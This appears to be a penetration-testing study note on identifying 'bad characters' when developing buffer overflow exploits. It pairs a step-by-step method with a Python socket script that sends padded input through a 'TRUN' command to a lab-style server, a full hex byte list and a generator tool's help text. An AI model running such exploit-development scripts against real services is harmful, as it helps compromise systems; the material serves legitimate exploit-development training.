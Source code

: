 [**Bad Characters Repo**](https://github.com/cytopia/badchars)
When exploiting buffer overflow vulnerabilities, one critical step is to identify and account for any "bad characters" in the input data that could interfere with the successful execution of the exploit. Bad characters are specific bytes that, if present in the exploit payload, might be mishandled by the target application or the underlying system, leading to unintended consequences such as corruption of the payload or failed exploitation.

The process of finding bad characters involves systematically testing different byte values in the exploit payload to ensure that the application and system can handle them correctly. This is especially important when dealing with situations where the payload is copied into memory or transmitted over a network, as some characters may be treated as control characters, stripped, or modified along the way.

1. **Generate Test Payload**: Create a test payload that includes all possible byte values (0x00 to 0xFF). This test payload is typically in the form of a consecutive sequence of bytes.
2. **Inject Test Payload**: Inject the test payload into the vulnerable application's input, such as a buffer or command-line argument.
3. **Observe Output**: Monitor and analyze the output to see if any of the bytes in the test payload are modified, stripped, or mishandled.
4. **Detecting Bad Characters**: If any characters in the test payload are not correctly represented in the output or trigger unexpected behavior, those characters are considered "bad characters" for the specific target application.
5. **Exclude Bad Characters**: Once the bad characters are identified, they need to be excluded from the final exploit payload. This is typically done by crafting the payload in such a way that it avoids including these problematic characters while still achieving the desired exploit.

Common bad characters include null bytes (0x00) and other control characters that can interfere with string terminations, buffer functions, or other operations. Additionally, characters used as delimiters or special characters in the target application's input processing should be carefully tested.

It's essential to perform this process diligently, as overlooking bad characters can lead to unreliable exploits or failed exploitation attempts. After identifying and excluding bad characters, the exploit payload can be crafted to take control of the target application and achieve the desired exploitation.

#### Fuzzing Using Bad Characters
```python
#!/usr/bin/python 
import sys, socket

badchars = {<Generated Bad Characters>}

shellcode = "A" * <EIP Offset> + "B" * 4 + badchars

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
	s.connect(('192.168.1.35',9999)) 
	
	s.send(('TRUN /.:/' + shellcode)) 
	s.close()
except:
	print ("Error Connecting to Server") 
	sys.exit()
```

![[Bad Characters Detection.png]]

#### Hex Dump Bad Characters
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

#### Help Page
```bash
$ badchars --help
usage: badchars [-h] [-v] [-l int] [-f str]

Badchar generator.

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         Show version information,
  -l int, --length int  Length of badchars to create. Default: 255
  -f str, --format str  Format output: c, python, js, php, ruby, bash
```

